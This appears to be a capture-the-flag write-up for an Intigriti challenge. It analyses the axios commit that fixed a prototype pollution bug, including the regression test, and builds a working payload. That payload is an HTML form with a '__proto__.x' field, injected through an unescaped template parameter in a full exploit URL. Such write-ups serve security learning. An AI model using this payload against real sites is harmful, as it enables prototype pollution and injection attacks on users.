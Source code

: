 https://security.snyk.io/vuln/SNYK-JS-AXIOS-6144788

Commit: https://github.com/axios/axios/commit/3c0c11cade045c4412c242b5727308cff9897a0e

Indeed this is a fix for the pp bug, before there was no check for the key if it was equal to `__proto__`:

```js
function formDataToJSON(formData) {
  function buildPath(path, value, target, index) {
    let name = path[index++];

    if (name === '__proto__') return true;
```
One more file was changed in that commit which is used to check for regressions:

```js
  it('should resist prototype pollution CVE', () => {
    const formData = new FormData();

    formData.append('foo[0]', '1');
    formData.append('foo[1]', '2');
    formData.append('__proto__.x', 'hack');
    formData.append('constructor.prototype.y', 'value');

    expect(formDataToJSON(formData)).toEqual({
      foo: ['1', '2'],
      constructor: {
        prototype: {
          y: 'value'
        }
      }
    });

    expect({}.x).toEqual(undefined);
    expect({}.y).toEqual(undefined);
  });
});
```

This gives us an idea about how the payload will look like to trigger the prototype pollution bug:

Sample prototype pollution payload:

```js
<form id="search">
    <input name="q" value="angular/material-start">
    <input name="__proto__.x" value="hack"/>
</form>
```



Our html injection is before the form tag, so we can supply the above prototype pollution payload

```html
<h2>Hey <%- name %>,<br>Which repo are you looking for?</h2>

<form id="search">
    <input name="q" value="<%= search %>">
</form>
```
https://challenge-0124.intigriti.io/challenge?name=shirley%3Cform%20id=%22search%22%3E%20%3Cinput%20name=%22q%22%20value=%22angular/material-start%22%3E%20%3Cinput%20name=%22__proto__.x%22%20value=%22hack%22/%3E%20%3C/form%3E&search=angular/material-start
